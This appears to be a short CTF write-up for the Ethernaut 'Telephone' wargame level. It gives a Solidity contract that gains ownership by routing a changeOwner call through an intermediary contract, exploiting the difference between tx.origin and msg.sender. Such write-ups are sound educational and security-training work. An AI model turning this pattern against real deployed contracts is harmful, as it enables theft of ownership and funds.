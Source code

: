 +++
title = 'Ethernaut Level 4 - Telephone'
date = 2024-04-08 02:00:00
draft = false

featured_image =  '/images/ethernaut.png'
background_image= '/images/ethernaut.png'
summary = 'Abuse the fact that tx.origin and msg.sender are different'
tags = [ 'writeups' , 'blockchain' ]
+++

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.25;

// tx.origin := Initial address of transaction chain
// msg.sender := previous address in transaction chain
// Solution: Make a contract to chall `changeOwner` 
// tx.origin (player) != msg.sender (contract)
interface Telephone {
    function changeOwner(address _owner) external ;
}


contract hackTelephone {
    Telephone originalContract;

    constructor(address _addr){
        originalContract = Telephone(_addr);
    }

    function hack(address _targetaddr) public {
        originalContract.changeOwner(_targetaddr);
    }
}


```